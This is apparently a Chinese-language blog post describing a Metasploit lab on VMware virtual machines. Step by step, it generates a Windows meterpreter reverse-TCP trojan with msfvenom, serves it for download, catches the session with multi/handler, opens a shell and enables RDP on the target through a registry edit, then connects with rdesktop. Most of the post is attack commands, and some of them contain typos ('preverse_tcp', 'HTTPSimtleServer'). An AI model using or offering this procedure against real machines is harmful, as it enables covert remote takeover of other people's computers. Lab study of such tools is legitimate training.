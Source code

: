 ```yaml
---
layout:     post
title:      Metasploit，生成木马内网渗透
subtitle:   Metasploit，简单vmware虚拟机内网渗透。
date:       2019-3-17
author:     陈建武
header-img: img/post-bg-re-vs-ng2.jpg
catalog: true
tags:
    - Blog
---
```

1.是首先打开kali-linux，（这里我使用的版本是2019.1），打开终端运行msfconsole。

msfconsole

2.等待MSF启动成功，利用MSF下的一插件msfvenom，来生成木马。

msfvenom -p windows/meterpreter/preverse_tcp lhost='这里是输入你本机的ip' lport=‘这里输入你的端口，注意！不要和现在开启的端口冲突’ -f exe >/muma.exe

3.接下来开启一个简单的web服务。

python HTTPSimtleServer 8080.

4.去你的靶机浏览器访问kali的ip+端口并下载木马程序，

5.加载exp。

use exploit/multi/handler

6.设置payload。

set payload windows/meterpreter/preverse_tcp

set lhost '你的ip'

set lport '你的端口'

show options ‘这里查看参数是否都输入对了’。

run‘运行’

7.等待目标上线。

shell 控制目标终端。

8.输入以下命令打开对方3389远程桌面端口。

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f

9.利用kali下的rdesktop，链接对方桌面。

rdesktop ‘目标ip’。

10.完成。

